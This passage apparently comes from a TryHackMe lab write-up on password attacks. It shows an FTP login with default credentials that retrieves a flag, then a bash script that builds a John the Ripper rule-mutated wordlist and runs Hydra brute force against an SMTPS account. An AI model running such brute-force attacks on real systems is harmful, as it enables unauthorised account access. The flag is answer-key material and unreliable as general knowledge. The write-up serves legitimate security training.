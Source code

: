 If we use the first credentials, we can see this:

```
ftp 10.10.131.98
Connected to 10.10.131.98.
220 (vsFTPd 3.0.3)
Name (10.10.131.98:samsepiol): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 111      116          4096 Oct 12  2021 files
226 Directory send OK.
ftp> cd files
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0              38 Oct 12  2021 flag.txt
226 Directory send OK.
```

We got our flag:

```
cat flag.txt
THM{d0abe799f25738ad739c20301aed357b}
```

#### Rule-Based

![](gitbook/cybersecurity/images/Pasted%20image%2020250512170320.png)

We need to add rules to our `/etc/john/john.conf` file, then expand it and run hydra against `smtp`, let's automate all of the process using bash:

```bash
#!/usr/bin/env bash
#!/bin/bash

# Configuration
JOHN_CONF="/usr/share/john/john.conf"
BASE_WORDLIST="clinic.lst"
RULE_NAME="THM"
TARGET="smtps://10.10.131.98:465"
EMAIL="pittman@clinic.thmredteam.com"
OUTPUT_WORDLIST="generated_passwords.txt"

# Add the custom rule to John config (corrected version)
echo "[List.Rules:$RULE_NAME]" | sudo tee -a "$JOHN_CONF" > /dev/null
echo "Az\"[0-9][0-9]\" ^[!@#\$]" | sudo tee -a "$JOHN_CONF" > /dev/null

# Generate the custom wordlist
echo "[*] Generating custom wordlist..."
john --wordlist="$BASE_WORDLIST" --rules="$RULE_NAME" --stdout | sort -u > "$OUTPUT_WORDLIST"

# Run Hydra attack against SMTPS
echo "[*] Starting Hydra attack..."
hydra -l "$EMAIL" -P "$OUTPUT_WORDLIST" "$TARGET" -V -f

# Cleanup (optional)
# rm "$OUTPUT_WORDLIST"
```